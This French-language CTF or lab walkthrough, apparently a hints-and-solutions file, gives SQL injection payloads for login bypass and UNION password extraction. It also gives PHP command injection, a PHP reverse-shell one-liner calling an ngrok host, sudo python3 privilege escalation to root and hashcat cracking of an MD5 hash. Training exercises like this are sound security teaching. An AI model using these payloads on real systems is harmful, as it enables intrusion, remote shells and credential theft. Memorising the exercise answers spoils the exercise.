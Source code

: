 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :
    Mettre en user : (n'importe quoi)
    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :
    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
nc -l -p 12345 
ngrok tcp 12345
php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~
pense_bete.txt

cat ~/pense_bete.txt
Pense-bête pour le mdp root de l'autre machine:
dc15d3f5ab9656bc55f7a2f5d1e3a0a5

* Solution :
    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt
    (hashcat -m0 --show flag)